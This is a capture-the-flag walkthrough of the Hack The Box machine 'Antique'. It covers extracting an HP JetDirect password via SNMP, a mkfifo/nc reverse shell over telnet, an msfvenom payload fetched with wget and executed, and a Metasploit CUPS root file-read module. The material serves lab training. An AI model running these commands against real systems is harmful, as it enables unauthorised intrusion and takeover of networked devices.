 ```yaml
---
description: https://app.hackthebox.com/machines/400
---
```


# Antique

## Nmap

```
sudo nmap 10.10.11.107 -p- -sS -sV

PORT   STATE SERVICE VERSION
23/tcp open  telnet?
```

With minimal `nmap` results returned we also scan `UDP` ports for any open ports.

```
sudo nmap 10.10.11.107 -sU -F                     

PORT    STATE SERVICE
161/udp open  snmp
```

Checking out telnet on port 23 we see when connecting we are informed of a HP JetDirect printer.

![](<../../../.gitbook/assets/image (144).png>)

A few default passwords prove unsuccessful. Researching on Google for JetDirect exploits we find a great article from IronGeek: [http://www.irongeek.com/i.php?page=security/networkprinterhacking](http://www.irongeek.com/i.php?page=security/networkprinterhacking)

![](<../../../.gitbook/assets/image (450).png>)

As per the article we try the same exploit.

```bash
snmpget -v 1 -c public <IP> .1.3.6.1.4.1.11.2.3.9.1.1.13.0
```

![](<../../../.gitbook/assets/image (251).png>)

The resulting BITS value can be taken over to CyberChef and decoded from Hex to a plaintext value.

**CyberChef:** [https://gchq.github.io/CyberChef](https://gchq.github.io/CyberChef)

![](<../../../.gitbook/assets/image (540).png>)

We now have the password `P@ssw0rd@123!!123` which can be used to authenticate over `telnet`.

![](<../../../.gitbook/assets/image (321).png>)

From the `?` output above we see the `exec` command can be used to perform system commands.

Running the following command shows `nc` is installed on the target system.

```
exec which nc
```

a `nc` listener is set up on the attacking system and the following command is executed on the target `telnet` session to receive a reverse shell.

```bash
exec rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <IP> <Port> >/tmp/f
```

Which we receive a shell on our `nc` listener.

![](<../../../.gitbook/assets/image (2081).png>)

After grabbing the user flag, we perform some basic enumeration against the target system. Looking through the CUPS configuration files we notice we are running CUPS 1.6.1

![](<../../../.gitbook/assets/image (2035) (2).png>)

Research against Google shows this version of CUPS can perform root file reads.

**URL:** [https://www.rapid7.com/db/modules/post/multi/escalate/cups\_root\_file\_read/](https://www.rapid7.com/db/modules/post/multi/escalate/cups\_root\_file\_read/)

As this is a `metasploit` module we will need to get a `meterpreter` shell.

Firstly, an x86 `elf` payload was generated.

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<Port> -f elf -o reverse.elf
```

A `meterpreter` listener was then setup

```bash
msfconsole -q -x "use multi/handler; set payload linux/x64/shell_reverse_tcp; set lhost <IP>; set lport <PORT>; exploit"
```

The payload as then downloaded onto the target system and executed.

```
# Download the payload
wget http://<IP>/reverse.elf

# Set executable on the payload
chmod +x reverse.elf

# Execute
./reverse.elf
```

This will then catch a command shell within `meterpreter`.

![](<../../../.gitbook/assets/image (60).png>)

After this the following `metasploit` mode was used to upgrade the command shell to a `meterpreter` shell.

```
use post/multi/manage/shell_to_meterpreter
```

![](<../../../.gitbook/assets/image (1291).png>)

The following mode was then used for the CUPS root read module.

```
use post/multi/escalate/cups_root_file_read
```

The `root.txt` was set as a parameter for the file to read and executed. Successfully reading the `root.txt` flag.

![](<../../../.gitbook/assets/image (337).png>)
